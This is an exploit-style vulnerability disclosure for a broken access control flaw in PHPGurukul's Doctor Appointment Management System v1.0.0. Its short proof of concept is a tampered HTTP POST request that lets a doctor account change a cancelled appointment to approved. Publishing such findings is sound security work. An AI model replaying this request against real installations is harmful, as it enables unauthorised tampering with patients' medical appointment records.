 # Exploit Title: Doctor Appointment Management System - V 1.0.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/doctor-appointment-management-system-using-php-and-mysql/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v1.0.0
## Exploit Description:
## Doctor Appointment Management System - V 1.0.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the appointment status from cancelled to approved that can not modify in UI.

## ---------------------------------POC-----------------------------
```
POST /dams/doctor/view-appointment-detail.php?editid=8&&aptid=154553066 HTTP/1.1
...

remark=hello&status=Approved(CHENGE HERE)&submit=
```